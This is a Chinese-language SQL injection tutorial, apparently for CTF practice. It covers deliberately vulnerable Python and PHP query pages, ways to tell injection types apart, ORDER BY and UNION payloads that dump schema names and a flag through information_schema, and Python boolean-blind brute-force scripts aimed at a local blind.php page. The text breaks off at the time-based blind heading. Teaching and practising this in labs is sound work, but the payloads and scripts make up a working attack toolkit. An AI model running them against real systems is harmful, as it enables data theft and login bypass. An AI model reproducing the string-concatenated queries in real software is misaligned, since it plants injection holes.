


# SQL注入详解

`更新时间 2025-9-7`

## 概述

SQL注入`SQL Injection`是一种常见的网络攻击手段，攻击者通过在输入字段或请求中注入恶意的 SQL 语句，操控数据库执行意图之外的操作。其目的通常有以下几点

- 窃取敏感数据
- 绕过身份验证
- 修改、删除数据库内容
- 执行系统命令等

### SQL注入的工作原理

1. 输入验证不足

永远不要相信用户的输入，如果Web应用程序没有对用户输入进行验证，攻击者就可以在输入字段中插入SQL代码进行SQL注入攻击

2. 拼接SQL语句

应用程序后端通常将用户输入与SQL查询拼接在一起，形成完整的数据库查询语句，但是由于用户输入验证的不足，这很容易导致攻击者输入SQL代码来截取后端的SQL查询语句

3. 执行恶意SQL

如果应用程序没有对输入进行适当的清理或转义，恶意SQL代码将被数据库服务器直接执行，以此造成的后果通常是难以预料的

4. 数据泄露或破坏

攻击者可以利用SQL注入来查询、修改或删除数据库中的数据，或者执行数据库管理系统的系统命令，甚至通过权限修改以达成完全控制数据库服务器的目的

**举例**

```py
import pymysql

conn = pymysql.connect(host='localhost', port=3308, user='root', password='root', database='test')
cursor = conn.cursor()

# python
# 首先接收用户输入
username = input('用户名：')
password = input('密码：')

# 拼接后端查询语句
sql = f"SELECT * FROM users WHERE username='{username}' AND password='{password}'"

# 传入mysql进行查询，并获取查询结果
# 假设已经创建了游标 cursor
cursor.execute(sql)
user = cursor.fetchone()

# 登录验证
if user is not None:
    print("登陆成功！")
else:
    print("登陆失败！")
```

上文是一个简单的后台登录的实现，现在来模拟用户的登录，假设数据中存在用户名为`Ki1z`，密码为`xunlin123`的用户

- 合法输入

输入：`username = Ki1z, password = xunlin123`

后台的SQL语句：`sql = "SELECT * FROM users WHERE username='Ki1z' AND password='xunlin123'"`

数据库返回的数据：`user = (1, 'Ki1z', 'xunlin123')`

- 非法输入（SQL注入）

输入：`username = 1' OR 1=1#, password = 123`

后台的SQL语句：`sql = "SELECT * FROM users WHERE username='1' or 1=1#' AND password='123'"`

这里输入`1'`导致引号提前，`username`字段被用户输入闭合，即本来的用户输入为`'1' or 1=1#'`，但实际为`'1'`，又因为后面拼接的`or 1=1#'`使用井号将原来的后引号注释，SQL不再继续解析，因此后面的`AND password='123'`失效，并且这段SQL语句的语法又是完全正确的，实际传入数据库的语句为`sql = "SELECT * FROM users WHERE username='1' or 1=1"`。因为`or 1=1`的存在，使得`WHERE`永远为真，等价于`SELECT * FROM users`

数据库返回的数据：`user = (1, 'Ki1z', 'xunlin123')`

> 

### SQL注入的危害

- 数据泄露：攻击者获取数据库中的用户名、密码、银行卡号等敏感信息
- 权限提升：攻击者可能通过注入命令获得更高的访问权限
- 数据篡改：数据库内容被修改或删除
- 服务中断：恶意 SQL 代码可能导致数据库崩溃，影响系统可用性
- 执行系统命令：通过数据库扩展功能，攻击者可能直接操作操作系统

## SQL注入的基本漏洞类型

由于后台数据库查询语句拼接的格式不同和业务需求不同，SQL注入一般分为了三种基本类型

### 数字型注入

一般出现于通过代号、数字id等方式进行查询时，可能的SQL语句如下

```py
# python

# 获取查询id
id = input()

# 拼接sql语句
sql = f'SELECT * FROM users WHERE id={id}'
```

**如何判断**

- 查询处出现`代号`、`序号`、`id`等字样
- 尝试`1'`、`1"`、`1'#`、`1"#`均报错
- 尝试`1 AND 1=1`查询结果与`1`相同
- 尝试`1 AND 1=2`不报错，但是没有结果

### 字符型注入

绝大部分数据库查询的参数均是字符串类型，在数据库中，字符串类型的数据需要用引号括起来，而SQL支持单引号和双引号两种方式，因此字符型注入又分为单引号注入和双引号注入，两者的原理一致。可能的SQL语句如下

```py
# python

# 获取用户名
uname = input()

# 拼接sql语句
sql = f"SELECT * FROM users WHERE username='{uname}'" # 单引号类型
sql = f'SELECT * FROM users WHERE username="{uname}"' # 双引号类型
```

**如何判断**

- 尝试`1'`或`1"`报错
- 尝试`1'#`或`1"#`查询结果与`1`相同
- 尝试`1' AND 1=1#`或`1" AND 1=1#`查询结果与`1`相同
- 尝试`1' AND 1=2#`或`1" AND 1=2#`不报错，但是没有结果

**为什么要判断SQL注入的漏洞类型**

了解SQL注入的类型是SQL注入的基础和前提，只有准确掌握后台SQL语句的拼接结构，才能利用漏洞进行有效的攻击

## SQL注入攻击

### SQL注入攻击的一般顺序

以一般CTF比赛为例，我们对一道SQL注入类题目进行攻击

1. 信息收集，寻找题目中存在SQL查询的位置与可能的SQL注入点
2. 漏洞验证，使用上方的判断方法验证SQL注入点的存在以及判断SQL注入点的漏洞类型

3. 提取信息，利用拼接的SQL语句查询数据库中的敏感内容，包括`库名`、`表名`、`字段名`和`字段值`

4. 寻找flag，在已知的信息中寻找flag可能出现的位置，并最终找到该题的flag

### SQL注入攻击的攻击类型

#### ORDER BY 攻击

`ORDER BY`攻击是指利用数据库中的`ORDER BY`排序语句来泄露当前数据表中字段数量的攻击手法

**攻击原理**

在数据库中使用`ORDER BY`进行排序时，排序的参数可以为字段名或字段序号，如以下数据表

`users`

| id   | username | password |
| ---- | -------- | -------- |
| 1    | admin    | admin    |
| 2    | root     | root     |
| 3    | kiiz     | xunlin   |
| 4    | ocean    | mingxi   |

查询语句

```sql
SELECT *
FROM users
ORDER BY username;
```

完全等价于

```sql
SELECT *
FROM users
ORDER BY 2;
```

> 

当`ORDER BY`后的参数为字段序号时，序号不能超过数据表中的字段数量，如当前表中存在3个字段，使用`ORDER BY 4`则会报错

> 

攻击者恰好可以利用这个报错来泄露当前数据表中的字段数量

*注：`ORDER BY`攻击不是必须的，字段数量也可以通过其他攻击手法获取*

#### UNION 联合注入

`UNION`联合注入是指使用SQL语句中的`UNION`关键字来达到执行任意查询的攻击手法

**攻击原理**

`UNION`是SQL查询两张不同的表时使用的关键字之一，如以下数据表，我们希望其底部额外添加一条查询内容

`users`

| id   | username | password |
| ---- | -------- | -------- |
| 1    | admin    | admin    |
| 2    | root     | root     |
| 3    | kiiz     | xunlin   |
| 4    | ocean    | mingxi   |

`额外内容`

| id   | username | password |
| ---- | -------- | -------- |
| 5    | 6        | 7        |

查询语句

```sql
SELECT *
FROM users
UNION
SELECT 5,6,7;
```

> 

在进行`UNION`联合查询时，必须保证前后两张表的字段数量完全一致，否则会报错

> 

因此，`UNION`联合注入在一定程度上可以代替`ORDER BY`来判断字段数量，但`UNION`联合注入的功能要更强大，因为`UNION`后的`SELECT`可以查询任意内容

##### 判断回显点

在一般的数据库查询页面中，前端显示的字段数量通常要少于数据表中的实际字段数量，因为需要考虑性能优化、数据安全与隐私保护等。在进行攻击前，就需要攻击者事先判断前端页面中显示的是哪些字段，这个过程被称为判断回显点

假设数据库中有一张数据表

`users`

| id   | username | password |
| ---- | -------- | -------- |
| 1    | admin    | admin    |
| 2    | root     | root     |
| 3    | kiiz     | xunlin   |
| 4    | ocean    | mingxi   |

还有一个用户查询页面，但是为了避免密码泄露，前端只会显示`id`和`username`字段

`injectionPoint.php`

```php
<!doctype html>
<html lang="zh-cn">
<head>
    <meta charset="UTF-8">
    <meta name="viewport"
          content="width=device-width, user-scalable=no, initial-scale=1.0, maximum-scale=1.0, minimum-scale=1.0">
    <meta http-equiv="X-UA-Compatible" content="ie=edge">
    <title>Document</title>
</head>
<body>
    <h2>用户查询</h2>
    <form method="post" action="injectionPoint.php">
        用户名：
        <input type="text" name="username">
        <input type="submit" value="查询">
    </form>
</body>
</html>

<?php


if (isset($_POST['username'])) {
    $username = $_POST['username'];
    $conn = new mysqli("localhost", "root", "root", "test");
    $sql = "SELECT * FROM users WHERE username = '$username'";
    if (!$conn->query($sql)) {
        echo "SQL错误: " . $conn->error;
        exit;
    }
    $result = $conn->query($sql);
    while ($row = mysqli_fetch_assoc($result)) {
        echo "id：".$row['id']."<br>";
        echo "用户：".$row['username']."<br>";
    }
}
```

先进行合法的查询，输入`admin`

> 

如图所示，后台返回了`admin`的`id`以及`username`字段。

站在攻击者的角度来看，我们很显然不知道这张表到底有几个字段，贸然使用`UNION`很容易导致报错，因此，我们使用`ORDER BY`来判断字段数量，但在此之前，需要先判断漏洞类型，以下是我们尝试后得到的信息

- 输入`admin'`报错`You have an error in your SQL syntax; check the manual that corresponds to your MySQL server version for the right syntax to use near ''admin''' at line 1`
- 输入`admin'#`不报错，且返回的内容与`admin`一致
- 输入`admin' and 1=1#`不报错，且返回的内容与`admin`一致
- 输入`admin' and 1=2#`不报错，但是没有返回内容

根据上文的描述，这是典型的单引号注入类型，攻击者可以在传入数据库的参数中利用引号闭合后端代码的前引号，以拼接其他SQL攻击语句

然后，再利用`ORDER BY`判断字段数量

- 输入`admin' ORDER BY 4#`报错`Unknown column '4' in 'order clause'`
- 输入`admin' ORDER BY 3#`不报错，且返回的内容与`admin`一致

因此可以确定字段数为3，而前端只显示两个字段，下一步便是判断回显点，判断回显点一般是利用`UNION`来连接一段特定的数据，然后根据前端返回的内容来判断前端显示了哪几个字段

```sql
1' UNION SELECT 1,2,3#
```

例如上面的`payload`，已知数据表中有三个字段，那么我们就在`UNION`后面的`SELECT`中使用`1,2,3`来标记三个字段，如果前端显示了`1,2`，那么就可以使用`1,2`字段的位置显示其他内容

> 

**为什么有时候仍然显示合法查询的内容？**

假设数据表中新增了一个用户，用户名为`1`，密码为`1234`

`新增数据`

| id   | username | password |
| ---- | -------- | -------- |
| 5    | 1        | 1234     |

并且前端只显示一条记录

```php
# 只显示一条结果
$row = $result->fetch_assoc();
echo "id: " . $row['id'] . "<br>";
echo "用户: " . $row['username'] . "<br>";
```

此时输入`1' UNION SELECT 1,2,3#`就会发现，前端只显示`id`为5的用户信息，而不是`id = 1`和`username = 2`

> 

这主要是查询记录的默认排序导致的，一般来说，`UNION`联合查询的查询内容会排在主查询之后，输入`1' UNION SELECT 1,2,3#`时，主查询能取得一条记录，子查询也能取得一条记录，而恰好前端又只显示一条记录，于是排在第一位的主查询的合法记录就会显示在前端

这种问题的解决方法也很简单，问题的主要来源是主查询与子查询竞争前端显示位，只需要满足主查询无法取得记录即可，即查询数据表中没有的内容

```sql
0' UNION SELECT 1,2,3#
```

> 

##### 获取敏感信息

判断回显点后，就可以开始逐步获取数据库中的敏感内容，根据SQL注入的一般顺序得知，现在我们需要获取该数据库中的`数据库名`、`数据表名`、`字段名`和`字段值`，按照从大到小的顺序，首先获取数据库名

**DATABASE()**

在MySQL中，存在一个函数`DATABASE()`可以快捷查询当前数据库名

```sql
0' UNION SELECT DATABASE(),2,3#
```

> 

###### information_schema

`information_schema`是MySQL 5.0版本引入的一个信息数据库，`information_schema`库中存储了当前DBMS中所有的数据库的结构内容，包括`数据库信息`、`数据表信息`、`字段信息`、`表索引`、`视图定义`、`约束信息`等

值得注意的是，`information_shcema`数据库中的所有数据表实际上都是视图，不是物理存储的基础表，这意味着它们是在查询时动态生成的，会根据DBMS的变化同步更新

**information_schema.schemata**

`information_schema.schemata`中存储的是当前DBMS中的所有数据库信息，包括

| 字段名                         | 含义                 | 备注                                                       |
| ------------------------------ | -------------------- | ---------------------------------------------------------- |
| **CATALOG_NAME**               | 目录名               | 在MySQL中通常固定为`def`，表示默认目录                     |
| **SCHEMA_NAME**                | 数据库名             |                                                            |
| **DEFAULT_CHARACTER_SET_NAME** | 数据库的默认字符集   | 指定了该数据库中新建表和字段时默认使用的字符编码           |
| **DEFAULT_COLLATION_NAME**     | 数据库的默认排序规则 | 决定了字符串比较、排序和搜索时的大小写敏感性及字符排序规则 |
| **SQL_PATH**                   | SQL路径              | 保留字段，可能在某些特定环境或未来版本中有用，通常为`NULL` |
| **DEFAULT_ENCRYPTION**         | 数据库的默认加密选项 | 指示在该数据库中创建的新表是否默认启用加密                 |

对于攻击者来说，可以利用`information_schema.schemata`的`SCHEMA_NAME`来查询所有的数据库名

**information_schema.tables**

`information_schema.tables`中存储的是当前DBMS中的所有数据表信息，包括

| 字段名              | 含义                       | 备注                                                         |
| ------------------- | -------------------------- | ------------------------------------------------------------ |
| **TABLE_CATALOG**   | 目录名                     | 在MySQL中通常固定为`def`，表示默认目录                       |
| **TABLE_SCHEMA**    | 数据库名                   | 表示该表所属的数据库                                         |
| **TABLE_NAME**      | 数据表名                   |                                                              |
| **TABLE_TYPE**      | 表类型                     | 一般有普通表`BASE TABLE`与视图`VIEW`                         |
| **ENGINE**          | 表存储引擎                 | 常见的有`InnoDB`、``                                         |
| **VERSION**         | 表结构版本号               | 通常由存储引擎内部使用，表示`.frm`文件的版本，现代存储引擎通常是10 |
| **ROW_FORMAT**      | 行存储格式                 | 通常为`DYNAMIC`，还有`REDUNDANT`、`COMPACT`、`COMPRESSED`等  |
| **TABLE_ROWS**      | 表行数                     | 估算值                                                       |
| **AVG_ROW_LENGTH**  | 平均每行占用的字节数       | 估算值                                                       |
| **DATA_LENGTH**     | 数据部分占用的总字节数     | 不包括索引                                                   |
| **MAX_DATA_LENGTH** | 表允许的最大数据长度       | 通常为0，表示没有长度限制                                    |
| **INDEX_LENGTH**    | 索引部分占用的总字节数     |                                                              |
| **DATA_FREE**       | 已分配但是未使用的存储空间 | 通常表示碎片空间或预留给未来数据增长的空间                   |
| **AUTO_INCREMENT**  | 自动增长的下一个值         | 若没有自动增长，则为`NULL`                                   |
| **CREATE_TIME**     | 表创建时间                 |                                                              |
| **UPDATE_TIME**     | 表更新时间                 |                                                              |
| **CHECK_TIME**      | 表最后检查时间             | `MyISAM`等引擎会更新此值，`InnoDB`通常为`NULL`               |
| **TABLE_COLLATION** | 表默认字符集与排序规则     |                                                              |
| **CHECKSUM**        | 表校验和                   | 如果启用了表校验和，这里会存储校验和值。未启用则为`NULL`     |
| **CREATE_OPTIONS**  | 表创建时指定的额外选项     |                                                              |
| **TABLE_COMMENT**   | 表注释                     |                                                              |

对于攻击者来说，可以利用`information_schema.tables`的`TABLE_NAME`来查询所有的数据表名

**information_schema.columns**

`information_schema.`中存储的是当前DBMS中的所有字段的信息，包括

| 字段名                       | 含义                         | 备注                                           |
| ---------------------------- | ---------------------------- | ---------------------------------------------- |
| **TABLE_CATALOG**            | 目录名                       | 在MySQL中通常固定为`def`，表示默认目录         |
| **TABLE_SCHEMA**             | 数据库名                     | 表示字段所属的数据库                           |
| **TABLE_NAME**               | 表名                         | 表示字段所属的数据表                           |
| **COLUMN_NAME**              | 字段名                       |                                                |
| **ORDINAL_POSITION**         | 字段序号                     | 从1开始                                        |
| **COLUMN_DEFAULT**           | 字段默认值                   | 可以在创建表时定义，默认为`NULL`               |
| **IS_NULLABLE**              | 是否允许为NULL               |                                                |
| **DATA_TYPE**                | 字段数据类型                 |                                                |
| **CHARACTER_MAXIMUM_LENGTH** | 字符型字段允许的最大字符长度 | 非字符类型为`NULL`                             |
| **CHARACTER_OCTET_LENGTH**   | 字符型字段允许的最大字节长度 | 非字符类型为`NULL`                             |
| **NUMERIC_PRECISION**        | 数值型字段的精度             |                                                |
| **NUMERIC_SCALE**            | 数值型字段的小数位数         |                                                |
| **DATETIME_PRECISION**       | 日期时间型字段的小数秒精度   |                                                |
| **CHARACTER_SET_NAME**       | 字符型字段的字符集           |                                                |
| **COLLATION_NAME**           | 字符型字段的排序规则         |                                                |
| **COLUMN_TYPE**              | 字段的完整数据类型定义       | 包含长度、精度等                               |
| **COLUMN_KEY**               | 字段索引类型                 |                                                |
| **EXTRA**                    | 字段额外信息                 | 如`AUTO_INCREMENT`                             |
| **PRIVILEGES**               | 当前用户对字段拥有的权限     | 如`SELECT`、`INSERT`、`UPDATE`、`REFERENCES`等 |
| **COLUMN_COMMENT**           | 字段注释                     |                                                |
| **GENERATION_EXPRESSION**    | 生成表达式                   | 非生成列均为`NULL`                             |
| **SRS_ID**                   | 空间参考系统ID               | 非空间类型的字段均为`NULL`                     |

对于攻击者来说，可以利用`information_schema.columns`的`COLUMN_NAME`来查询所有的数据表名

在上文给出的字段中，对于攻击者来说，重要的只有`SCHEMA_NAME`、`TABLE_NAME`以及`COLUMN_NAME`，现在我们来尝试依次查询

```sql
' UNION SELECT SCHEMA_NAME,2,3 FROM information_schema.schemata#
```

> 

**为什么只显示mysql？**

我们先尝试直接在MySQL中直接进行查询

> 

不难发现，获取的结果是一张表，而前端只显示其中的一条记录，因此我们需要让一张表变为一行

**GROUP_CONCAT()**

`GROUP_CONCAT()`是SQL中的一个聚合函数，它用于将来自某个分组的多个行的列值连接成一个单独的字符串

> 

很显然，`GROUP_CONCAT`将`SCHEMA_NAME`的所有记录连接成为了一个单独的字符串，并用逗号分隔

###### 泄露数据库

```sql
' UNION SELECT GROUP_CONCAT(SCHEMA_NAME),2,3 FROM information_schema.schemata#
```

> 

在获得的所有数据库中，`mysql`、`information_schema`、`performance_schema`、`sys`都是系统自带表，一般可以直接忽略

###### 泄露数据表

在泄露的数据库中，我们选择`test`库继续注入攻击，泄露`test`库中的所有数据表

```sql
' UNION SELECT GROUP_CONCAT(TABLE_NAME),DATABASE(),3 FROM information_schema.tables WHERE TABLE_SCHEMA=DATABASE()#
```

> 

这里需要注意，在`information_schema.tables`中，表所属数据库的字段名为`TABLE_SCHEMA`，而不是之前的`SCHEMA_NAME`，而且因为当前数据库正好是`test`，所以可以使用`DATABASE()`来代替

###### 泄露字段名

在`test`中，我们发现了`flag`表，那么`flag`一定就在其中，下一步就是查询`flag`表中的字段名

```sql
' UNION SELECT GROUP_CONCAT(COLUMN_NAME),DATABASE(),3 FROM information_schema.columns WHERE TABLE_SCHEMA=DATABASE() AND TABLE_NAME='flag'#
```

> 

###### 泄露字段值

现在已知`flag`表中仅有`flag`一个字段，因此我们通过`UNION`联合查询直接查询其中的内容

```sql
' UNION SELECT flag,2,3 FROM flag#
```

> 

最终，我们成功获取了`flag`

#### SQL盲注

大多数实际的查询页面中，不会在前端显示报错信息，这会导致我们无法根据报错来判断注入点、回显点、字段数量等。但聪明的攻击者并不会因此放弃攻击，而是选择不需要查看报错的攻击方式，即SQL盲注。SQL盲注并不依靠数据库本身的报错信息，而是根据前端页面的响应来判断`payload`的执行情况

SQL盲注根据使用函数的不同，分为`布尔盲注`与`时间盲注`两种

##### 布尔盲注

布尔盲注是指依靠`LENGTH()`、`SUBSTR()`、`ASCII()`等字符串函数，通过前端响应的不同，来判断函数是否成功执行，从而猜测数据库敏感内容的注入方式

首先来认识一下布尔盲注通常使用的函数

| 函数     | 使用方法                       | 参数                                                         | 含义                                             |
| -------- | ------------------------------ | ------------------------------------------------------------ | ------------------------------------------------ |
| LENGTH() | LENGTH(str)                    | str：查询内容                                                | 返回str的字符长度                                |
| SUBSTR() | SUBSTR(str, start_pos, length) | str：查询内容<br />start_pos：开始位置（基于查询内容），从1开始<br />length：需要截取的长度 | 从str中，从start_pos开始，截取length长度的字符串 |
| ASCII()  | ASCII(char)                    | char：查询内容，只能是一个字符                               | 返回char的ASCII编码                              |

然后我们开始进行布尔盲注，假设数据库中有一张数据表

`users`

| id   | username | password |
| ---- | -------- | -------- |
| 1    | admin    | admin    |
| 2    | root     | root     |
| 3    | kiiz     | xunlin   |
| 4    | ocean    | mingxi   |

还有一个查询页面

`blind.php`

```php
<!doctype html>
<html lang="zh-cn">
<head>
    <meta charset="UTF-8">
    <meta name="viewport"
          content="width=device-width, user-scalable=no, initial-scale=1.0, maximum-scale=1.0, minimum-scale=1.0">
    <meta http-equiv="X-UA-Compatible" content="ie=edge">
    <title>Document</title>
</head>
<body>
<h2>用户查询</h2>
<form method="post" action="blind.php">
    用户名：
    <input type="text" name="username">
    <input type="submit" value="查询">
</form>
</body>
</html>

<?php
error_reporting(0);

if (isset($_POST['username'])) {
    $username = $_POST['username'];
    $conn = new mysqli("localhost", "root", "root", "test");
    $sql = "SELECT * FROM users WHERE username = '$username'";
    if (!$conn->query($sql)) {
        echo "输入的用户名不存在";
        exit;
    }
    $result = $conn->query($sql);
    if ($result->num_rows == 0) {
        echo "输入的用户名不存在";
        exit;
    }
    # 只显示一条结果
    $row = $result->fetch_assoc();
    echo "id: " . $row['id'] . "<br>";
    echo "用户: " . $row['username'] . "<br>";
}
```

这道题将所有的报错全部关闭了，取而代之的是`"输入的用户名不存在"`一句话

> 

###### 判断漏洞类型

在先前的基本漏洞类型中，给出的判断方式有四点，而布尔盲注的判断方式也基本相同，仅是无法判断后台是报错还是无数据

- 尝试`1'`或`1"`没有结果
- 尝试`1'#`或`1"#`查询结果与`1`相同
- 尝试`1' AND 1=1#`或`1" AND 1=1#`查询结果与`1`相同
- 尝试`1' AND 1=2#`或`1" AND 1=2#`没有结果

下面我们使用上方的例子来判断漏洞类型，首先输入`1`，保证有数据结果

> 

然后输入`1'`，提示`输入的用户名不存在`

> 

再输入`1'#`，发现结果与`1`相同

> 

到这里就可以确定是单引号注入类型，我们传入的`'`将后台本身存在的前引号闭合，`#`将后台本身存在的后引号注释掉，就构成了语法正确的SQL语句

###### 判断字段数量

判断字段数量的方式也与之前相同

输入`1' ORDER BY 5#`，提示`输入的用户名不存在`

> 

输入`1' ORDER BY 3#`，返回内容与`1`相同

> 

由此可见，布尔盲注的实质是攻击者将注意力重心放在“返回结果是否变化”上，而非先前注重“是否报错”，这与布尔值本身类似，我们将返回正常内容视为`TRUE`，返回异常内容或无返回内容视为`FALSE`，因此被称为`布尔盲注`

###### 泄露数据库

实际上，这道题除了没有报错信息外，其他地方都与普通注入相同，无法完全体现布尔盲注的特点，因此我们在题目中添加一个过滤，禁用`UNION`关键字

`blind.php`

```php
<!doctype html>
<html lang="zh-cn">
<head>
    <meta charset="UTF-8">
    <meta name="viewport"
          content="width=device-width, user-scalable=no, initial-scale=1.0, maximum-scale=1.0, minimum-scale=1.0">
    <meta http-equiv="X-UA-Compatible" content="ie=edge">
    <title>Document</title>
</head>
<body>
<h2>用户查询</h2>
<form method="post" action="blind.php">
    用户名：
    <input type="text" name="username">
    <input type="submit" value="查询">
</form>
</body>
</html>

<?php
error_reporting(0);

if (isset($_POST['username'])) {
    $username = $_POST['username'];
    if (preg_match('/union/i', $username)) {
        echo "输入的用户名不存在";
        exit;
    }
    $conn = new mysqli("localhost", "root", "root", "test");
    $sql = "SELECT * FROM users WHERE username = '$username'";
    if (!$conn->query($sql)) {
        echo "输入的用户名不存在";
        exit;
    }
    $result = $conn->query($sql);
    if ($result->num_rows == 0) {
        echo "输入的用户名不存在";
        exit;
    }
    # 只显示一条结果
    $row = $result->fetch_assoc();
    echo "id: " . $row['id'] . "<br>";
    echo "用户: " . $row['username'] . "<br>";
}
```

这里使用`preg_match()`函数对`UNION`关键字进行了过滤，并且因为使用的是正则表达式`/union/i`，会自动忽略大小写，因此可以保证匹配无法绕过

```sql
1' UnIOn SELECT 1,2,3#
```

> 

现在我们来正式进行注入，根据以往经验，现在要输入的payload为

```sql
1' UNION SELECT DATABASE(),2,3#
```

由于`UNION`被过滤，只能使用其他方式。根据已知的函数`LENGTH()`，它能否返回一个查询结果的长度，如果我们在它的后面使用比较符`>`、`<`和`=`，就能精确判断该查询结果的长度，例如我们判断当前数据库名的长度

> 

很显然，在`SELECT LENGTH(DATABASE())=4;`时SQL返回`TRUE`，因此该数据库名的长度为4，所以借助这个特性，我们使用`AND`将正常的查询结果与`LENGTH()`拼接，如果`LENGTH()`返回`TRUE`，最终前端返回的结果就为`AND`前面查询的正常结果，如果`LENGTH()`返回`FALSE`，`AND`运算结果也为`FALSE`，最终前端显示查询失败

```sql
1' AND LENGTH(DATABASE())>5#
```

> 

```sql
1' AND LENGTH(DATABASE())=4#
```

> 

*注：这里可以使用 `>=` 和 `<=`*

现在我们已经知道了数据库名的长度，接下来是泄露数据名的内容，这里就要利用`SUBSTR()`函数了，与`LENGTH()`类似，如果我们在其后面使用比较符，就能够作为一个判断语句使用

> 

如上图所示，`SELECT SUBSTR(DATABASE(),1,1)>'u';`为`FALSE`，`SELECT SUBSTR(DATABASE(),1,1)>'p';`为`TRUE`，因此就可以确定数据库名的第一个字符位于`p`和`u`之间，因为尝试的次数比较多，可以使用二分法加快查询效率

> 

最终我们就能得知数据库名的第一个字符是`t`，而第二个字符仅需要修改`SUBSTR()`的第二参数`start_pos`即可

> 

然后，我们同样使用`AND`来拼接正常查询的内容，通过是否返回正常数据来判断`AND`后面拼接的`SUBSTR()`是否返回`TRUE`

```sql
1' AND SUBSTR(DATABASE(),1,1)>'q'#
```

> 

```sql
1' AND SUBSTR(DATABASE(),1,1)>'v'#
```

> 

```sql
1' AND SUBSTR(DATABASE(),1,1)='t'#
```

> 

以此类推，就可以得到当前的数据库名

**脚本注入**

在进行盲注的时候经常会进行重复的工作，因此可以写一个注入脚本来帮助我们进行攻击，这里我们使用python写一个泄露数据库名的脚本

- 获取请求包

在开始编写脚本之前，我们首先需要知道前端向后端发送的请求包的格式，以及传入的参数，这可以使用抓包来获取

> 

观察这个请求包，可以得知使用的是`POST`请求方式，请求的`url`是`localhost/sql-injection/blind.php`，请求体中的参数名为`username`。知道这些信息，我们就能着手编写注入脚本了

- 编写脚本

首先指定攻击的`url`为`http://localhost/sql-injection/blind.php`

```py
# python

url = 'http://localhost/sql-injection/blind.php'
```

然后是定义一些需要的变量，如数据库名的长度，字符集，注意这里需要导入`string`包

```py
import string

length = 4
charset = string.ascii_letters + string.digits
```

然后就可以构建payload

```py
for i in range(1, length + 1):
    for char in charset:
        payload = f"1' AND SUBSTR(DATABASE(),{i},1)='{char}'#"
```

最后根据响应体中是否包含`输入的用户名不存在`这句话来判断是否注入成功

```py
import requests

response = requests.post(url, data={'username': payload})
if not '输入的用户名不存在' in response.text:
    print(f'第{i}个字符是{char}')
```

最终的exp

```py
import string
import requests

# 攻击的url
url = 'http://localhost/sql-injection/blind.php'
# 数据库名长度
length = 4
# 字符集
charset = string.ascii_letters + string.digits

for i in range(1, length + 1):
    for char in charset:
        payload = f"1' AND SUBSTR(DATABASE(),{i},1)='{char}'#"
        response = requests.post(url, data={'username': payload})
        if not '输入的用户名不存在' in response.text:
            print(f'第{i}个字符是{char}')
```

由于字符集中包含大小写字母，而数据库名对大小写不敏感，因此结果中会同时出现大小写字母

> 

*解决方法也很简单，这里留给读者自己解决*

###### 泄露数据表

泄露数据表的步骤与泄露数据库相同，只需要将`SUBSTR()`函数的第一个参数改为一个查询语句即可

> 

在这道题中，`SUBSTR()`中使用的查询语句即为普通注入时的查询语句，即

```sql
SELECT SUBSTR((SELECT GROUP_CONCAT(TABLE_NAME) FROM information_schema.tables WHERE TABLE_SCHEMA=DATABASE()),1,1);
```

> 

现在我们在题目中实际注入

```sql
1' AND SUBSTR((SELECT GROUP_CONCAT(TABLE_NAME) FROM information_schema.tables WHERE TABLE_SCHEMA=DATABASE()),1,1)>'a'#
```

> 

```sql
1' AND SUBSTR((SELECT GROUP_CONCAT(TABLE_NAME) FROM information_schema.tables WHERE TABLE_SCHEMA=DATABASE()),1,1)>'g'#
```

> 

```sql
1' AND SUBSTR((SELECT GROUP_CONCAT(TABLE_NAME) FROM information_schema.tables WHERE TABLE_SCHEMA=DATABASE()),1,1)='f'#
```

> 

最后我们就能得知`test`数据库中某一张表名的第一个字符为`f`

**脚本注入**

同样地，我们利用脚本来进行注入攻击，只需要将刚才的脚本稍作修改，就能够继续使用

```py
import string
import requests

# 攻击的url
url = 'http://localhost/sql-injection/blind.php'
# 字符集
# 包含小写字母、数字、特殊字符
charset = string.ascii_lowercase + string.digits + string.punctuation
# 最大数据长度
max_len = 50
# 定义数据表名
table_name = ''

for i in range(1, max_len + 1):
    for char in charset:
        print(f'正在第{i}次尝试字符{char}')
        payload = f"1' AND SUBSTR((SELECT GROUP_CONCAT(TABLE_NAME) FROM information_schema.tables WHERE TABLE_SCHEMA=DATABASE()),{i},1)='{char}'#"
        response = requests.post(url, data={'username': payload})
        if not '输入的用户名不存在' in response.text:
            table_name += char

print(table_name)
```

这里的最大数据长度最好事先使用`LENGTH()`进行判断

```sql
SELECT LENGTH((SELECT GROUP_CONCAT(TABLE_NAME) FROM information_schema.tables WHERE TABLE_SCHEMA=DATABASE()));
```

> 

然后使用脚本爆破

> 

###### 泄露字段名

只需要将脚本稍加修改就能使用

```py
import string
import requests

# 攻击的url
url = 'http://localhost/sql-injection/blind.php'
# 字符集
# 包含小写字母、数字、特殊字符
charset = string.ascii_lowercase + string.digits + string.punctuation
# 最大数据长度
max_len = 4
# 定义数据库名
table_name = 'flag'
# 定义字段名
column_name = ''

for i in range(1, max_len + 1):
    for char in charset:
        print(f'正在第{i}次尝试字符{char}')
        payload = f"1' AND SUBSTR((SELECT GROUP_CONCAT(COLUMN_NAME) FROM information_schema.columns WHERE TABLE_SCHEMA=DATABASE() AND TABLE_NAME='{table_name}'),{i},1)='{char}'#"
        response = requests.post(url, data={'username': payload})
        if not '输入的用户名不存在' in response.text:
            column_name += char

print(column_name)
```

运行脚本，得到字段名

> 

###### 泄露字段值

```py
import string
import requests

# 攻击的url
url = 'http://localhost/sql-injection/blind.php'
# 字符集
# 包含小写字母、数字、特殊字符
charset = string.ascii_lowercase + string.digits + string.punctuation
# 最大数据长度
max_len = 50
# 定义数据库名
table_name = 'flag'
# 定义字段名
column_name = 'flag'
# 定义字段值
value = ''

for i in range(1, max_len + 1):
    for char in charset:
        print(f'正在第{i}次尝试字符{char}')
        payload = f"1' AND SUBSTR((SELECT {column_name} FROM {table_name}),{i},1)='{char}'#"
        response = requests.post(url, data={'username': payload})
        if not '输入的用户名不存在' in response.text:
            value += char

print(value)
```

> 

##### 时间盲注

